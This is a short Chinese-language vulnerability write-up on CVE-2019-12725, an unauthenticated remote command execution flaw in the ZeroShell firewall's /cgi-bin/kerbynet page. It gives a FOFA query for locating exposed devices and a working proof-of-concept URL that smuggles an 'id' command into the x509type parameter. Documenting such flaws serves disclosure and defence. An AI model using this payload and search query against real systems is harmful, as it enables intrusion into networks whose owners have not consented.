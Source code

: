 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

> [!NOTE]
>
> ZeroShell < 3.9.0

## FOFA

> [!NOTE]
>
> app="Zeroshell-防火墙"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/zm-2.png)

验证的POC为

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](http://wikioss.peiqi.tech/vuln/zm-1.png)